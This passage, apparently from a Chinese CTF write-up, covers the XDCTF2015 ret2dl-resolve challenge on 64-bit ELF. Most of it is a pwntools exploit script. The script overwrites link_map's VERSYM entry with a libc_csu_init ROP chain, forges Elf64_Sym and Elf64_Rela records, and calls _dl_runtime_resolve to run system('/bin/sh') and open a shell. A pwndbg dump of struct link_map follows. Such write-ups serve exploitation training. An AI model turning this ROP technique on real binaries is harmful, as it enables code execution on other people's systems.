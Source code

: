 ```python
link_map_addr=u64(p.recv(8))
print hex(link_map_addr)
link_map_l_info_VERSYMIDX_DT_VERSYM_addr=link_map_addr+0x1c8
print hex(link_map_l_info_VERSYMIDX_DT_VERSYM_addr)
fake_map_l_info_VERSYMIDX_DT_VERSYM=120*'a'
fake_map_l_info_VERSYMIDX_DT_VERSYM+=p64(libc_csu_init_gadget_start1_addr)+p64(0)+p64(1)+p64(read_got_addr)+p64(0)+p64(link_map_l_info_VERSYMIDX_DT_VERSYM_addr)+p64(0x100)
fake_map_l_info_VERSYMIDX_DT_VERSYM+=p64(libc_csu_init_gadget_start2_addr)+p64(0xdeadbeef)*7+p64(main_addr)
p.recvuntil('Welcome to XDCTF2015~!\n')
sleep(1)
p.send(fake_map_l_info_VERSYMIDX_DT_VERSYM)
p.send(p64(0))
#######################################################

payload1=120*'a'
payload1+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(new_stack)+p64(0xdeadbeef)+p64(read_plt_addr) #向new_stack_esp中写入/bin/sh\x00
payload1+=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(fake_write_ELF64_Sym_start_addr)+p64(0xdeadbeef)+p64(read_plt_addr) #0x10中写入fake_write_Elf64_Sym
payload1+=p64(main_addr)

p.recvuntil('Welcome to XDCTF2015~!\n')
p.send(payload1)
sleep(1)
p.send("/bin/sh\x00system\x00".ljust(0x10,'\x00')) #改为system字符串
sleep(1)
p.send(fake_write_ELF64_Sym)  #fake_write_Elf64_Sym
sleep(1)

payload2=120*'b'+p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(fake_write_Elf64_Rela_start_addr)+p64(0xdeadbeef)+p64(read_plt_addr)+p64(main_addr)
p.recvuntil('Welcome to XDCTF2015~!\n')
p.send(payload2)
p.send(fake_write_Elf64_Rela) #fake_write_Elf64_Rela

payload3=120*'c'+p64(pop_rdi)+p64(new_stack)
payload3+=p64(jmp_dl_runtime_resolve_addr)+p64(fake_reloc_arg)+p64(0xdeadbeef) 
sleep(1)
p.recvuntil('Welcome to XDCTF2015~!\n')
p.send(payload3)
p.interactive()
```

但这种方法需要用到write这样的输出函数，这种题大多数没有输出函数，所以有了一种修改linkmap的方法

linkmap

```c
pwndbg> ptype l
type = struct link_map {
    Elf64_Addr l_addr;
    char *l_name;
    Elf64_Dyn *l_ld;
    struct link_map *l_next;
    struct link_map *l_prev;
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;
    Elf64_Dyn *l_info[76];  //l_info 里面包含的就是动态链接的各个表的信息
    ...
    size_t l_tls_firstbyte_offset;
    ptrdiff_t l_tls_offset;
    size_t l_tls_modid;
```